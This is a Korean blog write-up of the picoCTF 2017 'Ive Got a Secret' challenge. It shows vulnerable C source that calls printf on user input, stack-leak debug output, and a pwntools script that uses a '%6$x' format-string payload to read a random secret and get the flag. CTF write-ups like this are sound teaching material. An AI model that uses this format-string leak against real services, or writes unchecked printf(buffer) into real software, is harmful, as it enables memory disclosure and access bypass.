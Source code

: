 ```yaml
---
layout: post
title: "[study] picoctf 2017 Ive got a secret"
description: "picoctf2017 문제 풀이"
date: 2017-06-15 20:00:00
category: study
tags:  [fsa]
---
```


[picoCTF 2017 : binary exploitation : level2 : Ive-Got-A-Secret](https://2017game.picoctf.com/game/level-2/challenge/Ive-Got-A-Secret)

Picoctf 2017 서버가 아직 살아있어서 좀더 풀어보기...

<!--more-->

## Source

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>

#define BUF_LEN 64
char buffer[BUF_LEN];

int main(int argc, char** argv) {
    int fd = open("/dev/urandom", O_RDONLY);
    if(fd == -1){
        puts("Open error on /dev/urandom. Contact an admin\n");
        return -1;
    }
    int secret;
    if(read(fd, &secret, sizeof(int)) != sizeof(int)){
        puts("Read error. Contact admin!\n");
        return -1;
    }
    close(fd);
    printf("Give me something to say!\n");
    fflush(stdout);
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);

    int not_secret;
    printf("Now tell my secret in hex! Secret: ");
    fflush(stdout);
    scanf("%x", &not_secret);
    if(secret == not_secret){
        puts("Wow, you got it!");
        system("cat ./flag.txt");   
    }else{
        puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    }

    return 0;
}
```


## Analysis

### 1. Guessing random number

처음에는 `/dev/urandom` 을 통한 값을 동일하게 얻기 위하여 노력을 했었다가... T_T;


### 2. Format String Bug

잘 안 되서 코드를 다시 보니... 앗, format string bug.

```c
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);
```

```
[DEBUG] Sent 0x2f bytes:
    'AAAA,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x\n'
[DEBUG] Received 0x7b bytes:
    'AAAA,40,f7fc7c20,8048792,1,ffffdd34,3d780ea4,3,f7fc73c4,ffffdca0,0,f7e37a63,8048740,0,0\n'

[DEBUG] Sent 0x2f bytes:
    'AAAA,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x\n'
[DEBUG] Received 0x7b bytes:
    'AAAA,40,f7fc7c20,8048792,1,ffffdd34,d198dcc6,3,f7fc73c4,ffffdca0,0,f7e37a63,8048740,0,0\n'

[DEBUG] Sent 0x2f bytes:
    'AAAA,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x\n'
[DEBUG] Received 0x7b bytes:
    'AAAA,40,f7fc7c20,8048792,1,ffffdd34,6d83f5bf,3,f7fc73c4,ffffdca0,0,f7e37a63,8048740,0,0\n'
```

`AAAA` 이후의 **6번째 값**이 계속 **바뀐다.**





## Exploit

```python
#!/usr/bin/env python2

from pwn import * 

HOST = 'shell2017.picoctf.com'
PORT = 58570

local = False
#local = True

if local:
    conn = process("./secret")
else:
    conn = remote(HOST, PORT)

elf = ELF("./secret")

context.log_level = 'debug'

if local:
    gdb.attach(conn)

print conn.recv(1024)

#conn.sendline("AAAA,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x")
conn.sendline("AAAA %6$x")

m = conn.recv(1024)
secret = m[5:13]
print "[+] secret = %s" % secret

conn.sendline(secret)

print conn.recv(1024)

conn.interactive()
```



